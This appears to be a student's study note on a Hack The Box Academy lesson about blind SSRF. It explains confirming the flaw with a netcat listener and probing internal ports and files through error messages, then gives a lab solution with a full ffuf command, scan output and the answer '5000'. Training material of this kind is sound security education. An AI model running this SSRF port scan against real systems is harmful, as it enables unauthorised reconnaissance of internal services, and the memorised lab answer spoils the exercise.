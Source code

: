 ```yaml
---
sticker: lucide//server
---
```

In many real-world SSRF vulnerabilities, the response is not directly displayed to us. These instances are called `blind` SSRF vulnerabilities because we cannot see the response. As such, all of the exploitation vectors discussed in the previous sections are unavailable to us because they all rely on us being able to inspect the response. Therefore, the impact of blind SSRF vulnerabilities is generally significantly lower due to the severely restricted exploitation vectors.

---

## Identifying Blind SSRF

The sample web application behaves just like in the previous section. We can confirm the SSRF vulnerability just like we did before by supplying a URL to a system under our control and setting up a `netcat` listener:

```shell-session
smoothment@htb[/htb]$ nc -lnvp 8000

listening on [any] 8000 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 32928
GET /index.php HTTP/1.1
Host: 172.17.0.1:8000
Accept: */*
```

However, if we attempt to point the web application to itself, we can observe that the response does not contain the HTML response of the coerced request; instead, it simply lets us know that the date is unavailable. Therefore, this is a blind SSRF vulnerability:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_1.png)

---

## Exploiting Blind SSRF

Exploiting blind SSRF vulnerabilities is generally severely limited compared to non-blind SSRF vulnerabilities. However, depending on the web application's behavior, we might still be able to conduct a (restricted) local port scan of the system, provided the response differs for open and closed ports. In this case, the web application responds with `Something went wrong!` for closed ports:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_2.png)

However, if a port is open and responds with a valid HTTP response, we get a different error message:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_3.png)

Depending on how the web application catches unexpected errors, we might be unable to identify running services that do not respond with valid HTTP responses. For instance, we are unable to identify the running MySQL service using this technique:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_4.png)

Furthermore, while we cannot read local files like before, we can use the same technique to identify existing files on the filesystem. That is because the error message is different for existing and non-existing files, just like it differs for open and closed ports:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_5.png)

For invalid files, the error message is different:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_6.png)


# Question
---

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250212123042.png)

We know we are dealing with blind SSRF, when we try to point at an invalid resource of the server, we can see this:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250212123247.png)

We get an error message saying `Something went wrong!`, what about if we point at a valid resource:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250212123337.png)

We get a different error message, since we need to enumerate ports, we can use ffuf in the following way:

```
ffuf -w ports.txt:FUZZ -u http://10.129.70.117/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ&date=2024-01-01" -fr 'Something went wrong!'
```

In order to create our `ports.txt` wordlist, we can use the following command:

```
seq 1 65535 > ports.txt
```

Once we've fuzzed, we get the following:

```
ffuf -w ports.txt:FUZZ -u http://10.129.70.117/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ&date=2024-01-01" -fr 'Something went wrong!' -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.129.70.117/index.php
 :: Wordlist         : FUZZ: /home/samsepiol/ports.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : dateserver=http://127.0.0.1:FUZZ&date=2024-01-01
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Something went wrong!
________________________________________________

5000                    [Status: 200, Size: 52, Words: 8, Lines: 1, Duration: 111ms]
80                      [Status: 200, Size: 52, Words: 8, Lines: 1, Duration: 3977ms]
```


Answer is `5000`